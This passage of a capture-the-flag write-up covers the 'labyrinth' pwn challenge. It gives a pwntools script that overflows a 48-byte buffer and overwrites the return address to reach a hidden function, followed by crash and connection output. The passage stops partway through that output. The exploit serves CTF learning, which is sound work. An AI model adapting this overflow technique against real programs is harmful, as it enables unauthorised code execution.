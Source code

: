 ```
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒   ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒           ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒
zsh: done                python2 -c  | 
zsh: segmentation fault  ./labyrinth
```

We have a happy escapee, but we don't see the victory text or our flag. The return seems successful, but our target address isn't quite right? After this step I decided to write a python script that will be able to connect to the remote server and submit our payload. Lastly, after guessing a few addresses within escape_plan, I finally landed on one that works.
```python
from pwn import *

#elf = ELF('labyrinth')

p = remote('167.172.50.208', 30667)

payload = b"A"*48
payload += p64(0x401016)
payload += p64(0x401256)


p.sendline("69")
p.sendline(payload)
p.interactive()

response = p.recvall()
print(re.search("(ROPE{.*?})",response.decode()))
```
Full output from payload:
```
$ python escape.py
[+] Opening connection to 178.62.9.10 on port 31908: Done
/home/kali/Documents/cyber_apocalyse/pwn/challenge/e2.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline("69")
[*] Switching to interactive mode
                                                                                                                    
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒                                                                                 
▒-▸        ▒           ▒          ▒                                                                                 
▒-▸        ▒     O     ▒          ▒                                                                                 
▒-▸        ▒    '|'    ▒          ▒                                                                                 
▒-▸        ▒    / \    ▒          ▒                                                                                 
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒                                                                                 
                                                                                                                    
Select door:                                                                                                        
                                                                                                                    
Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010                 
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020                 
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030                 
```